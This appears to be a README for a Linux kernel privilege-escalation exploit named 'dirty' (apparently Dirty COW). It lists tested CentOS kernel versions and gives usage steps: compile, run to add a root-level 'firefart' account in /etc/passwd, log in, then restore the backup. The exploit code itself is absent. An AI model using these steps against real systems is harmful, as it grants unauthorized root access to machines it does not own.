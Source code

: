 ### Tested OS

| OS Ver | Kernel Ver | Result |
| ----- | ----- | ----- |
| CentOS release 6.6 (Final) | Linux 2.6.32-504.el6.x86_64 | :+1: | 
| CentOS release 5.9 (Final) | Linux 2.6.18-348.el5 | :x: |



### Uasge
1. `gcc -pthread dirty.c -o dirty -lcrypt`
2. `./dirty` or `./dirty my-new-password`
3. `su firefart` or `ssh firefart@...`
4. `mv /tmp/passwd.bak /etc/passwd`
